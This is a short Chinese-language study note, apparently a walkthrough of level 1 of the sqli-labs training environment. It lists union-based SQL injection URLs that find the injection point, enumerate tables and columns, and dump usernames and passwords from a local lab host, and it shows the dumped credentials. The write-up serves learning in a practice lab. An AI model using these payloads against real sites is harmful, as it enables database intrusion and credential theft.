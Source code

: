    ==修改后台密码==

   ![image-20220906112819509](SQL注入.assets/image-20220906112819509.png)

   

#### sqli-labs靶场1-4关练习

##### 第一关

```
找注入点:http://192.168.96.135/sqli-labs/Less-1/index.php?id=1
找闭合符:http://192.168.96.135/sqli-labs/Less-1/index.php?id=1'  
找列数:http://192.168.96.135/sqli-labs/Less-1/index.php?id=1'order by 3 %23
找字段显示位置:http://192.168.96.135/sqli-labs/Less-1/index.php?id=-1'union select 1,2,3 --+
找库名:http://192.168.96.135/sqli-labs/Less-1/index.php?id=-1'union select 1,2,database() --+
找表名:http://192.168.96.135/sqli-labs/Less-1/index.php?id=-1%27union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%22security%22%20--+    #emails,referers,uagents,users
找列名:http://192.168.96.135/sqli-labs/Less-1/index.php?id=-1%27union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=%22security%22%20and%20table_name=%22users%22--+
找用户名密码:http://192.168.96.135/sqli-labs/Less-1/index.php?id=-1%27union%20select%201,2,group_concat(username,%22=%22,password)%20from%20users--+

结果:Dumb=Dumb,Angelina=I-kill-you,Dummy=p@ssword,secure=crappy,stupid=stupidity,superman=genious,batman=mob!le,admin=admin,admin1=admin1,admin2=admin2,admin3=admin3,dhakkan=dumbo,admin4=admin4
```

==闭合符为单引号==
